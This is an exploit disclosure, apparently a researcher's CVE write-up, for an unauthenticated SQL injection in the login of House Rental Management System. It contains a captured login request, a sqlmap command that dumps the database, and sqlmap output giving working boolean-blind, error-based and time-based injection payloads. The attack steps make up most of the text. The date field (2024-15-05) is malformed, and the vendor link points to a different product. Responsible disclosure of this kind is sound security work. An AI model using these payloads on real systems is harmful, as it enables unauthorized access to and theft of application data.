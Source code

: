 # House Rental Management System - SQL Injection - 1 (Unauthenticated)
+ **Exploit Title:** House Rental Management System - SQL Injection - 1 (Unauthenticated)
+ **Date:** 2024-15-05
+ **Exploit Author:** Burak Sevben
+ **Vendor Homepage:** https://www.sourcecodester.com/php/17375/best-courier-management-system-project-php.html
+ **Software Link:** https://download.code-projects.org/details/74c24d93-431e-4e31-acc1-802f14caef5c
+ **Version:** Latest
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** Reported, waiting for CVE number.

## Description:
House Rental Management System allows SQL Injection via the 'username' parameter at "http://localhost/rental/login.php". 
Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: "http://localhost/rental/login.php"
+ Try logging in by typing random things
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:

```
POST /rental/ajax.php?action=login HTTP/1.1
Host: localhost
Content-Length: 27
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
sec-ch-ua-platform: "Linux"
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/rental/login.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: language=en; continueCode=5vLeVxlRzkNb47vKDPMo5Lq8wdzLtvf1Hem0jn6EZm2ygrX19BpaQWOJY3oM; welcomebanner_status=dismiss; cookieconsent_status=dismiss; PHPSESSID=1uglgqsdr43o5j4805l7v9kg7d
Connection: close

username=test&password=test
```

+ Use sqlmap to exploit. In sqlmap, use 'username' parameter to dump the database.
```
sqlmap -r r.txt -p username --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: username=test' OR NOT 6595=6595-- Zxii&password=test

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: username=test' AND (SELECT 7493 FROM(SELECT COUNT(*),CONCAT(0x7170717a71,(SELECT (ELT(7493=7493,1))),0x7170716271,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- Pmrg&password=test

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=test' AND (SELECT 6993 FROM (SELECT(SLEEP(5)))lxxU)-- OQDx&password=test
---
[16:47:40] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.58, PHP 8.2.12
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[16:47:40] [INFO] fetching current database
[16:47:40] [INFO] retrieved: 'house_rental_latest'
current database: 'house_rental_latest'
```
+ current database: `house_rental_latest`

![Ekran görüntüsü 2024-05-16 000355](https://github.com/BurakSevben/CVEs/assets/117217689/27b7108b-470f-4a21-9429-f6b3a135aa90)


